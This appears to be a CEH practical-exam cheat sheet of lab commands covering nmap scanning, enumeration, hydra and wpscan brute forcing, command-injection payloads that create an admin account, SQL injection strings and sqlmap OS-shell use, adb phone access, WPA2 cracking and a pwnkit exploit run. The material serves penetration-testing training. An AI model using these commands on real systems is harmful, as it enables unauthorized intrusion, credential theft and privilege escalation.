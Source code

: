 **Scanning Networks**

1- Nmap scan for alive/active hosts command for 192.189.19.18- nmap -A 192.189.19.0/24 or nmap -T4 -A IP

2- Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command- nmap -sT -v 10.10.10.16

3- Nmap scan if firewall/IDS is opened, half scan- nmap -sS -v 10.10.10.16 
If even this the above command is not working then use this command-  namp -f 10.10.10.16
4- -A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).

5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.

6- Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use nmap -A 192.168.92.10

7- If host is windows then use this command - nmap --script smb-os-discovery.nse 192.168.12.22 (this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 445 or 139).

8- nmap command for source port manipulation, in this port is given or we use common port-  nmap -g 80 10.10.10.10


**Enumeration**

1- NetBios enum using windows- in cmd type- nbtstat -a 10.10.10.10 (-a displays NEtBIOS name table)

2- NetBios enum using nmap- nmap -sV -v --script nbstat.nse 10.10.10.16

3- SNMP enum using nmap-  nmap -sU -p 161 10.10.10.10 (-p 161 is port for SNMP)--> Check if port is open
                          snmp-check 10.10.10.10 ( It will show user accounts, processes etc) --> for parrot

4- DNS recon/enum-  dnsrecon -d www.google.com -z

5- FTP enum using nmap-  nmap -p 21 -A 10.10.10.10 

6- NetBios enum using enum4linux- enum4linux -u martin -p apple -n 10.10.10.10 (all info)
				  enum4linux -u martin -p apple -P 10.10.10.10 (policy info)

**Quick Overview (Steganography) --> Snow, Openstego**

1- Hide Data Using Whitespace Stegnography- snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  (magic is password and your secret is stored in readme2.txt along with the content of readme.txt)
2- To Display Hidden Data- snow -C -p "magic" readme2.txt (then it will show the content of readme2.txt content)
3- Image Stegnography using Openstego- PRACTICE ??


**Sniffing**

1- Password Sniffing using Wireshark- In pcap file apply filter: http.request.method==POST (you will get all the post request) Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.


**Hacking Web Servers**


1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0

2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com

3- Crack FTP credentials using nmap-  nmap -p 21 10.10.10.10 (check if it is open or not)
				      ftp 10.10.10.10 (To see if it is directly connecting or needing credentials)


Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file.
Now in terminal type-  hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10


hydra -l user -P passlist.txt ftp://10.10.10.10



**Hacking Web Application**


1- Scan Using OWASP ZAP (Parrot)- Type zaproxy in the terminal and then it would open. In target tab put the url and click automated scan.

2- Directory Bruteforcing- gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt

3- Enumerate a Web Application using WPscan & Metasploit BFA-  wpscan --url http://10.10.10.10:8080/NEW --enumerate u  (u means username) 
Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin

4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
                                 wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.


**SQL Injections**

1- Auth Bypass-  hi'OR 1=1 --

2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--

3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs

4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables

5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)

6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell

6.1 In the shell type-   TASKLIST  (to view the tasks)

6.2 Use systeminfo for windows to get all os version

6.3 Use uname -a for linux to get os version



**Android**

1- nmap ip -sV -p 5555    (Scan for adb port)

2- adb connect IP:5555    (Connect adb with parrot)

3- adb shell              (Access mobile device on parrot)

4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)


**Wireshark**

tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given

tcp.flags.syn == 1   (Which machine for dos)

http.request.method == POST   (for passwords) or click tools ---> credentials Also



**Find FQDN**

nmap -p389 –sV -iL <target_list>  or nmap -p389 –sV <target_IP> (Find the FQDN in a subnet/network)


**Cracking Wi-Fi networks**

Cracking Wifi Password

aircrack-ng [pcap file] (For cracking WEP network)

aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)


**Some extra work**


Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)

Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)

**More:** 

**1) Wireless attack**

--> aircrack-ng cap_file -w password_dir

**2) malware analysis**

--> PEiD tool 
    1) open file
    2) find information

**3) IOT**
    
    1) search mqtt on the traffic
    2) select publish message
    3) find the msg len

**4) privilege escalation**
 
     1) for linux download linpeas
        => https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
     2) find a vulnerability like (pwnkit)
     3) go to https://github.com/arthepsy/CVE-2021-4034
     4) git clone
     5) cd to that exploit
     6) enter make
     7) run the compiled code 
     8) whoami 

**5) Android**
  
  with phonsploit
   1) download phonesploit
   2) run with python3 phonesploit.py
   3) Enter the IP
   4) type 4 to get the shell
   5) search of the file
   6) to download exit from the shell then enter 9 then give the file path /



**6) Vulnerability analysis **

   1) click openvas
   2) Enter linux pass
   3) enter the local IP on the browser
   4) login with admin & password
   5) click scans > tasks > task wizard > enter the IP for scan > start scan
